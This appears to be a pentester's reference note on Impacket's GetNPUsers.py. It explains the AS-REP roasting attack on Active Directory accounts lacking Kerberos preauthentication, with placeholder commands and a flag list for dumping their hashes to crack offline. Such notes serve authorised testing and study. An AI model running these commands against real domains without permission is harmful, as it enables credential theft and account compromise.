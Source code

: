 ## Definition
This tool in used to launch the ASREPRoast attack. This script will attempt to list and get TGTs for those users that have the property 'Do not require Kerberos preauthentication' set (UF_DONT_REQUIRE_PREAUTH). For those users with such configuration, a John the Ripper output will be generated so you can send it for cracking.

## Usage
Command to use a list of users or given credentials, perform an LDAP query to obtain users to attack on:
	GETNPUsers.py __{DOMAIN}/__ -usersfile __{WORDLIST}__ -format hashcat -outputfile __{HASH-NAME}__
Request TGTs for users in a file
	GetNPUsers.py -no-pass -usersfile __{USERS-WORDLIST}__ __{DOMAIN}__/

## Useful flags
Flags:
- -k : Use kerberos authentication
- -no-pass : Don't ask for password (Useful for -k)
- -usersfile __{USERS_WORDLIST}__ : File with user per line to test
- -format __{hashcat, john}__ : Format to save the AS_REQ of users without pre-authentication
- -outputfile __{FILENAME}__ : Output filename
- -request : Requests TGT for users and output them in JtR/hashcat format
- -dc-ip __{IP-ADDR}__ : IP address of the [Domain controller (DC)](</General Info/Tecnologias/Active Directory/Domain controller (DC).md>). If ommited it use the domain part specified in the target parameter
- -dc-host __{HOSTNAME}__ : Hostname of the [Domain controller (DC)](</General Info/Tecnologias/Active Directory/Domain controller (DC).md>) to use. If ommited, the domain part specified in the account parameter will be used